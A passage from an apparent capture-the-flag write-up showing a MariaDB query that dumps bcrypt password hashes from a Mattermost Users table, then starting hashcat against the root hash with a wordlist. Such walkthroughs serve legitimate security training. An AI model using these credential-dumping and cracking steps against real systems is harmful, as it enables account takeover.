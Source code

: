 ```sql
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)

MariaDB [mattermost]> select Username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| bokchee                          | $2a$10$6i6T.4oZF5S.oWzU7Vta/OLaHWCfA2wHTQlErk/8EkwN02/QhZ5Ki |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| test_1641750                     | $2a$10$UfllybUL30YxqZcak1AnRetZFPldjYlSAwGfvIWcvDZZfHwWFZCp6 |
+----------------------------------+--------------------------------------------------------------+
9 rows in set (0.000 sec)
```

It successfully extract many hashes!

### Crack the hash

Based on SQL query output, `root`'s hash is `$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`.

Let's try cracking this hash.
First, I need to identify its hash type.

![](attachments/delivery_18.png)

It says it's `bcrypt` hash.
According to the hashcat example, 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 25600 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>
```
